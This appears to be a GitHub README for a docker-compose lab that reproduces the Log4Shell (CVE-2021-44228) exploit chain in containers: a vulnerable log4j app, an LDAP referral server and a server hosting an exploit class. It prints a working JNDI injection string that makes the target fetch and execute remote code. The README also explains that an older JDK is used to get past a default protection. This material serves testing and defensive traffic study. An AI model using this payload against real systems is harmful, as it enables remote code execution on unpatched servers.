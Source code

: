 # Full-chain dockerized Log4Shell (CVE-2021-44228)

Log4Shell (CVE-2021-44228) is a critical vulnerability in the popular log4j2 logging package.
This vulnerability is extremely easy to exploit, and was fixed in log4j2 version 2.15.
This repository goal is to automate and construct the environment through a single click by using `docker-compose` and containers.
This could be useful for:

- Testing different java version easily.
- Testing different payloads without constructing heavy setups.
- Capturing easily the traffic for security protection measures.
- More.

The setup contains:

- `vuln` - A vulnarable code using log4j2
- `marshalsec` - An LDAP server serving the exploit to log4j JDNI request
- `http-server` - A simple python server serving the compiled exploit java class file

Further explanation cab be reached here:
https://www.lunasec.io/docs/blog/log4j-zero-day/

## Usage

Build and run all the containers

```bash
sudo docker-compose up --build
```

Once everything is up and running, you could see the next message, indicating the exploit was successful:

```
marshalsec_1   | Send LDAP reference result for Exploit redirecting to http://http-server:8888/Exploit.class
vuln_1         | Hello from exploit!
vuln_1         | 17:26:26.531 [main] ERROR log4j - ${jndi:ldap://marshalsec:1389/Exploit}
```

Behind the scenes, the vulnerable code is requesting the `Exploit` class from the LDAP server, and executes it.
You can freely modify the [Exploit](exploit/Exploit.java) file to make custom exploits, or the [log4j](vuln/src/main/java/log4j.java) file to change the malicious log.

## Notes

In recent JDK version, the variable `com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` by default, thus stopping effectively the attack. Thats why I set the java version to older than that.